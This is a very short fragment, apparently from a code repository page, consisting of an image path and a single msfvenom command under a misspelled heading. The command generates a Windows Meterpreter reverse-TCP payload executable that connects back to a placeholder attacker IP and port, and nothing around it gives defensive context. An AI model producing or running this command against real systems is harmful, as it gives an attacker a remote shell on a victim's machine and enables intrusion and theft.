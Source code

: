 # msvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f exe -o payload.exe
